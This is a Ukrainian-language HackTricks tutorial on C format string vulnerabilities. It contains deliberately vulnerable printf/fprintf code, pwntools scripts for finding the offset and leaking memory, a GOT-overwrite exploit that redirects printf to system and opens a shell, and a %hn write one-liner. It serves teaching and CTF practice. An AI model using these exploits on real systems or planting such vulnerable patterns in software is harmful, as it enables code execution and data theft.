 # Форматні рядки

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо ви зацікавлені в **кар'єрі в хакерстві** та хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

## Основна інформація

У C **`printf`** - це функція, яка може бути використана для **виведення** деякого рядка. **Перший параметр**, який очікує ця функція, - це **сирий текст з форматерами**. **Наступні параметри** - це **значення**, які потрібно **замінити** на **форматери** з сирого тексту.

Інші вразливі функції - це **`sprintf()`** та **`fprintf()`**.

Вразливість виникає, коли **текст зловмисника використовується як перший аргумент** для цієї функції. Зловмисник зможе створити **спеціальний вхід, зловживаючи** можливостями **форматного рядка printf** для читання та **запису будь-яких даних за будь-якою адресою (читабельною/записуваною)**. Таким чином, він зможе **виконувати довільний код**.

#### Форматери:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Приклади:**

* Вразливий приклад:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Звичайне використання:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* З відсутніми аргументами:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf вразливий:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Доступ до вказівників**

Формат **`%<n>$x`**, де `n` - це число, дозволяє вказати printf вибрати n параметр (з стеку). Тож, якщо ви хочете прочитати 4-й параметр зі стеку, використовуючи printf, ви можете зробити:
```c
printf("%x %x %x %x")
```
і ви б читали з першого до четвертого параметра.

Або ви могли б зробити:
```c
printf("%4$x")
```
і безпосередньо читати четвертий.

Зверніть увагу, що атакуючий контролює параметр `printf`, **що в основному означає, що** його введення буде в стеку, коли викликається `printf`, що означає, що він може записувати конкретні адреси пам'яті в стек.

{% hint style="danger" %}
Атакуючий, який контролює цей ввід, зможе **додати довільну адресу в стек і змусити `printf` отримати доступ до них**. У наступному розділі буде пояснено, як використовувати цю поведінку.
{% endhint %}

## **Довільне Читання**

Можливо використовувати форматер **`%n$s`**, щоб змусити **`printf`** отримати **адресу**, що знаходиться в **n позиції**, слідуючи за ним, і **друкувати її так, ніби це рядок** (друкувати до тих пір, поки не буде знайдено 0x00). Отже, якщо базова адреса бінарного файлу **`0x8048000`**, і ми знаємо, що введення користувача починається з 4-ї позиції в стеці, можливо надрукувати початок бінарного файлу за допомогою:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Зверніть увагу, що ви не можете поставити адресу 0x8048000 на початку введення, оскільки рядок буде обірвано на 0x00 в кінці цієї адреси.
{% endhint %}

### Знайти зсув

Щоб знайти зсув до вашого введення, ви можете надіслати 4 або 8 байтів (`0x41414141`), за якими слідує **`%1$x`** і **збільшувати** значення, поки не отримаєте `A's`.

<details>

<summary>Брутфорс зсуву printf</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Як корисно

Випадкові читання можуть бути корисними для:

* **Вивантаження** **бінарного** файлу з пам'яті
* **Доступу до конкретних частин пам'яті, де зберігається чутлива** **інформація** (як-от канарейки, ключі шифрування або користувацькі паролі, як у цьому [**CTF виклику**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Випадкове записування**

Форматер **`%<num>$n`** **записує** **кількість записаних байтів** у **вказану адресу** в параметрі \<num> у стеку. Якщо зловмисник може записати стільки символів, скільки захоче, використовуючи printf, він зможе змусити **`%<num>$n`** записати випадкове число в випадкову адресу.

На щастя, щоб записати число 9999, не потрібно додавати 9999 "A" до введення, для цього можна використовувати форматер **`%.<num-write>%<num>$n`**, щоб записати число **`<num-write>`** у **адресу, на яку вказує позиція `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Однак, зверніть увагу, що зазвичай для запису адреси, такої як `0x08049724` (що є ВЕЛИЧЕЗНИМ числом для запису одночасно), **використовується `$hn`** замість `$n`. Це дозволяє **записати лише 2 байти**. Тому ця операція виконується двічі: один раз для найвищих 2B адреси і ще раз для найнижчих.

Отже, ця вразливість дозволяє **записувати що завгодно в будь-яку адресу (произвольний запис).**

У цьому прикладі метою буде **перезаписати** **адресу** **функції** в таблиці **GOT**, яка буде викликана пізніше. Хоча це може зловживати іншими техніками произвольного запису для виконання:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Ми будемо **перезаписувати** **функцію**, яка **отримує** свої **аргументи** від **користувача** і **вказувати** її на **функцію** **`system`**.\
Як згадувалося, для запису адреси зазвичай потрібно 2 кроки: спочатку **записується 2 байти** адреси, а потім інші 2. Для цього використовується **`$hn`**.

* **HOB** називається для 2 вищих байтів адреси
* **LOB** називається для 2 нижчих байтів адреси

Потім, через те, як працює формат рядка, вам потрібно **спочатку записати найменший** з \[HOB, LOB\] і потім інший.

Якщо HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Якщо HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Шаблон

Ви можете знайти **шаблон** для підготовки експлойту для цього типу вразливості в:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Або цей базовий приклад з [**тут**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Форматні рядки до BOF

Можливо зловживати діями запису вразливості форматного рядка, щоб **записувати в адреси стеку** та експлуатувати вразливість типу **переповнення буфера**.

## Інші приклади та посилання

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 біт, без relro, без канарки, nx, без pie, базове використання форматних рядків для витоку прапора зі стеку (немає потреби змінювати потік виконання)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 біт, relro, без канарки, nx, без pie, форматний рядок для перезапису адреси `fflush` з функцією win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 біт, relro, без канарки, nx, без pie, форматний рядок для запису адреси всередині main в `.fini_array` (щоб потік повернувся ще раз) і запису адреси до `system` в таблиці GOT, що вказує на `strlen`. Коли потік повертається до main, `strlen` виконується з введенням користувача і вказує на `system`, він виконає передані команди.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Підтримка HackTricks

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.
{% endhint %}
